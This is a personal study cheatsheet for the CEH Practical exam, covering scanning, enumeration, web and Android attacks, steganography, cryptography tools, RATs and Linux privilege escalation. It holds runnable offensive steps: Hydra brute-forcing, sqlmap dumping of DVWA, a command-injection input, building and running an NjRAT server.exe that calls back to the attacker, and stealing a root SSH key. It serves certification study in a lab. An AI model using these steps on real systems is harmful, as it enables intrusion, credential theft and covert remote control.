 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)

Phases
**1.	**Network Scanning & Vulnerability Assessment****
•	Find Live hosts (nmap /netdiscover)
	Sudo nmap [IP address] – for exam (CEH Practical)
o	Sudo nmap –sC –sV –v –A –p– –O –T4 [IP Address range] – more aggressive deep scanning
o	Sudo nmap –sV –script vuln [IP Address] – finding vulnerabilities in a host (-oX save file)
o	Sudo nmap –sP 192.168.1.*:- when scanning a large network

•	Find open ports & services running on those ports (nmap)
	Sudo nmap –sC –sV –v –p– –T4 [IP Address range]
**2.	Enumeration**
•	ftp port 21 – used to transfer files between computers (file sharing)
o	check IP to see which is running ftp
	nmap –sC –p 21 [IP address]
o	ftp [IP] :- you need to bruteforce the password login credentials using hydra tool
	hydra –L username.txt –P password.txt [IP address] ftp (  the lists of password & usernames are given in the exam)
	login ftp [IP address]
o	enter password and username from the one that you brute forced
o	ftp>ls
o	ftp> get secret.txt (used to download the file into your local machine)
o	root@attacker:~#ls
o	root@attacker:~#cat secret.txt (to view the file contents)

•	SNMP port 161– used to monitor and manage network devices e.g. routers, switches, servers etc.
o	Nmap –sP [IP /24]
o	Nmap –sU [IP Address] (scan for UDP ports on the target machine) 
o	snmp-check [ip address] NB take note of the UDP port to listen to)
o	check NSE scripts online on nmap.org
o	nmap –sU –p 161(UDP port) –script=snmp-processes [IP Address] ( finding running process using nmap
o	msfconsole (start Metasploit to find valid strings)
o	msf5>search snmp
o	msf5>use auxiliary/scanner/snmp/snmp_login
o	msf5 auxiliary(scanner/snmp/snmp_login)> show options
o	msf5 auxiliary(scanner/snmp/snmp_login)>set RHOSTS [IP Address]
o	msf5 auxiliary(scanner/snmp/snmp_login)>exploit
•	SNMP check interfaces
o	nmap –sU –p 161(UDP port) –script=snmp-interfaces [IP Address] ( finding running process using nmap
o	snmp-check [IP address]
•	SMB Enumeration (SMB request services from server programs, it’s a protocol that allows apps on a computer read/write files)
o	Nmap [target IP] (smb running on port 445)
o	Nmap –p 445 --script smb-enum-shares [IP address] (enumerating files) shares files with details permissions
o	Connecting GUI method (smb://[IP] on web)
o	Nmap –p 445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating users)
o	Nmap –p 445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating groups)
o	Nmap –sC –sV –A –T4 –p445 [IP Address] (enumerating security levels)
o	Nmap –p 445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating services)
o	
•	Making an RDP session and Enumerate RDP service
o	Nmap [Ip address] port 3333 or 3389 is for RDP
o	Msfconsole
o	msf5> search rdp
o	msf5>use auxiliary/scanner/rdp/rdp_scanner
o	msf5 auxiliary(scanner/rdp/rdp_scanner)> set RHOSTS [target IP]
o	msf5 auxiliary(scanner/rdp/rdp_scanner)>set RPORT 3333
o	msf5 auxiliary(scanner/rdp/rdp_scanner)>exploit (detected rdp on ….. confirmed rdp is running)
o	hydra –L {path} –P{path} rdp://[IP address] –s 3333 (brute force passwords & save them)
o	root@attacker:~# xfreerdp /u:administrator /p:etcect /v:[ip]:3333(create an rdp session) 
•	Enumerate NetBIOS port 137(UDP: TCP)/138(UDP)/139(TCP) facilitates and allows computer to connect over the local network, access files & resources such as printers & files
o	Check ip first by ip a
o	Nmap –sP [IP address]
o	Nmap –sV --script nbstat.nse [IP address]

**3.	Hacking Web Application & Android **
•	Wpscan
o	Wpscan in Kali Linux Wpscan –h will show you all the commands you can use
o	Wpscan –url [copy url http://192.168.0.1] --enumerate u  (u for users) 
o	Wpscan –url (or just –u for url) [copy url http://192.168.0.1] --enumerate u vp (vp for vulnerable plugins & u for users) 
o	Sudo Wpscan --password-attack xmlrpc –t 20 –U (usernames) –P (password list)  --url http://[IP] --random-user-agent (if necessary)- bruteforce for passwords
•	Sqlmap for sql injections–Using DVWA website
o	Go to command execution
o	Enter an IP address and submit :- [IP] | pwd to see the directory that I am
o	UserID enter 1
o	Open burp Suite
o	Go to terminal in parrot : sqlmap –r req.txt –dbs the file is in desktop
o	Sqlmap –r req.txt –D dvwa ( name of the data base )
o	Sqlmap –r req.txt –D dvwa --tables --columns   ( Details )
o	Sqlmap –r req.txt –D dvwa --dump (contents of the tables)
•	Burp Suite
o	Check on http requests and proxy (use this to save  cookies as req.txt)
•	Android Pentest (ADB) – a tool that bridge the communication between your device and computer ( use windows)
o	‘adb devices’ command will show you all the devices connected
o	adb connect [IP address]:5555 ( just give any port) 
o	adb shell ( you are in the device )
o	hit ls to see where you are in the device
o	cd sdcard/
o	cat secrete.txt
**4.	Traffic Sniffing**
•	Wireshark
Pcap analysis – Filtering packets
o	tcp.flags.syn
o	Follow streams red part is our request and the blue part is the server response
o	To see if there is a txt file – export object got to file, export object of http and save it 
(DOS, DDOS)
**5.	Steganography**
•	SNOW – for hiding and extracting hidden data from a text file
o	Open SNOW.EXE (NB. you have to write in uppercase)–C (compile) –m “this is the secret message” –p ‘’give the password any’’ Secret.txt (this is the secrete file) Hiddensecret.txt (is the file you want to be the output)
o	To extract the hidden file-: SNOW.EXE –C -p “given password any” Hiddensecret.txt and then hit enter.
•	OpenStego – for hiding and extracting hidden data from an image file
o	Open the OpenStego tool
o	There 2 options, Hiding data and extracting the secret
o	Follow options-: they are self-explanatory
o	When extracting data the same. In an exam you can be told to extract a file and you will find a key. Open hashes.com on browser and then retrieve the key
•	Covert – for hiding data in TCP/IP packet headers
o	Download covert_tcp file in parrot
o	Cd Downloads
o	Then ~/Downloads/Covert_tcp $ ls there will be 3 files covert_tcp, covert_tcp.c & secret.txt and then-: rm covert_tcp to remove it in parrot
o	Enter a command: cc –a covert_tcp covert_tcp.c 
o	  ./covert_tcp  –source [IP Addrr e.g. 192.168.1.1] ( source Ip)  –dest [IP Addrr] (destination IP) –source_port 9999 ( set any port) –dest_port 8888 –file secret.txt  -: this is done from source computer
o	./covert_tcp  –source [IP Addrr: 192.168.1.1] ( source Ip)  -source_port 8888 –server –file receive.txt (received file as)
**6.	Cryptography – practice of securing information so that it’s only accessible to authorised users only. The goal is to protect sensitive information**
•	HashMyfiles - calculating and comparing hashes of files
o	Open the tool 
o	Drag and drop the files to the HashMyfiles application
o	The change in the background colour may mean that the data has been tempered with or the data in the files is the same
•	Cryptool – encrypting and decrypting of hex data – by manipulating key length
o	Open the app and open file
o	Go to analysis and then symmetric – RC4, a window pops up change the key length maybe to 16bit depends with the qns
•	BCTextEncoder -  encoding and decoding text in file .hex 
o	Open the app
o	Enter passwords to encode the text to hex format
o	To decrypt the hash go to hashes.com online and paste the hash key
•	Crypto Forge – encrypting and decrypting the files
o	Select file & right click
o	Select encrypt. To decrypt the hash go to hashes.com online and paste the hash key
•	Veracrypt – hiding and encrypting the disk partitions
o	Open app and hit create volume option
o	Create an encrypted file container
o	Hidden volume then normal mode then next & select folder then C:\ then file name NB mouse hover hover
o	Go to  App, select mount to retrieve information of the hidden partition, this is do  
**7.	RAT – Remote Access Trojans (ProRat & NjRAT) **
o	If you try and you are getting a response “no connection” it means maybe you have chosen the wrong machine to target or he port you have selected is the wrong one. Or the server is of different tool and you are using a different tool.
o	Using ProRat you open it using attacker machine using the IP address of the victim machine use the default port
o	Click connect and insert password. The password is provided if ProRat is used but if there is no password it means you use either HTTP RAT or NjRAT and you brute force.
o	Click on search files, copy the location and download the file.
o	You can make use of the File Manager option that is GUI
**USING NjRAT**
o	Using windows 11 as attacker and windows server as victim
o	Use the same default port and click start
o	Click on builder and provide the IP of the attacker machine on the host 
o	Click build and it will create server.exe file and save it e.g. on desktop
o	Share the file on the share folder (Desktop)then go to the server victim machine
o	Run the .EXE file 
o	Switch back to attacker ,machine and you can see the session has been opened 
o	You can right click on the session and use even RDP 
**8.	Privilege escalation**
o	ssh user1@[IP Addrr] –p(port) hit Y to agree and then enter the password you are provided or use hydra to brute force the password
o	If you hit the command whoami it shows you the user
o	 Sudo –L it shows you which users are there 
o	Go to the desired directory and do ls then it shows you the file, if you hit cat flag.txt you want to retrieve info in the file
o	Sudo –u user2 /bin/bash now you are logged in as user2 then go to the desired directory
o	This is horizontal privilege escalation
**Escalate to root user**
o	ls la shows all users
o	cd /root (access denied)
o	cd .ssh
o	ls
o	cat id_rsa you get ssh private key an copy 
o	nano id_rsa and then paste the key (in our local machine)
o	chmod 600 id_rsa (give permission to this file)
o	ssh root@[target IP] –p (port) –i  id_rsa
o	ls 
o	cat flag.txt
Nikto- nikto –h http://[IP Address]:80 (you can run on port 80)

